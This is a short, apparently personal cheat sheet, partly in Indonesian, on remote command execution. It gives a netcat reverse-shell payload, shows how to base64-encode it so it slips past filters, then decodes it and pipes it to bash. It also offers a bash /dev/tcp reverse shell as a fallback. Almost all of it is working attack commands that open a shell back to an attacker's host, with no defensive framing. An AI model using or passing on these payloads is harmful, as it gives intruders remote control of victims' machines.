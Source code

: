 # Remote Command Execution
## RCE Via Base64 
Payload `nc -e /bin/sh 10.0.0.1 1234`
```
echo "nc -e /bin/sh 192.168.56.107 1234" | base64
bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjU2LjEwNyAxMjM0Cg==
```

Untuk Proses RCE kita gunakan perintah berikut :
```
echo "bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjU2LjEwNyAxMjM0Cg==" | base64 -d | bash
```

Kalau gak bisa coba pakai payload lain, misalnya `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

```

```